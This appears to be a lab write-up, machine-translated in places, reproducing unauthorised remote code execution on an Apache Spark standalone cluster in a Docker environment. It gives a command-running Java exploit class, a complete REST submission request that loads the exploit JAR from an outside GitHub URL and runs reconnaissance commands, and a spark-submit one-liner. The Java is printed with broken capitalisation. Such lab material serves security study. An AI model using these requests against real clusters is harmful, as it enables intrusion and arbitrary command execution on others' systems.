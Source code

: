 # Apache Spark Unauthorized Access Vulnerability

Apache Spark is a cluster computing system that allows users to submit applications to the management node and distribute them to the cluster for execution. If the management node does not start ACL (access control), we will be able to execute arbitrary code in the cluster.

Reference link:

 - https://weibo.com/ttarticle/p/show?id=2309404187794313453016
 - https://xz.aliyun.com/t/2490

## vulnerability environment

Execute the following command to start an Apache Spark cluster in standalone mode. There is a master and a slave in the cluster:

```
Docker-compose up -d
```

After the environment is started, you can see the master's management page by visiting `http://your-ip:8080`. You can see the management page of the slave by visiting `http://your-ip:8081`.

## Vulnerability

The nature of the vulnerability is that an unauthorized user can submit an application to the management node, which is actually malicious code.

There are two ways to submit:

1. Utilize the REST API
2. Use the submissions gateway (integrated in port 7077)

The application can be Java or Python, which is the simplest class, such as (see link 1):

```java
Import java.io.BufferedReader;
Import java.io.InputStreamReader;

Public class Exploit {
  Public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    For (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("=================================================== ===");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  Private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    Try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      While ((line = reader.readLine()) != null) {
        Output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    Return output.toString();
  }
}
```

Compile it into a JAR and put it on any HTTP or FTP, such as `https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`.

### Submit an application using the REST API

In standalone mode, the master will start an HTTP server on port 6066, and we submit a REST-formatted API to this port:

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

Among them, `spark.jars` is the compiled application, mainClass is the class to be run, and appArgs is the parameter passed to the application.

![](1.png)

The returned package has a submissionId, and then access `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout` to view the execution result:

![](2.png)

Note that the submission application is in the master, and the results are viewed in the slave that executes the application (the default port 8081). In actual combat, there may be more than one slave.

### Using the submissions gateway

If the 6066 port is inaccessible or has permission control, we can use the master's main port 7077 to submit the application.

The method is to use the script `bin/spark-submit` that comes with Apache Spark:

```
Bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar Id
```

If the master parameter you specify is the rest server, the script will first try to use the rest api to submit the application; if it is found to be not the rest server, it will be downgraded to use the submission gateway to submit the application.

The way to view the results is the same as before.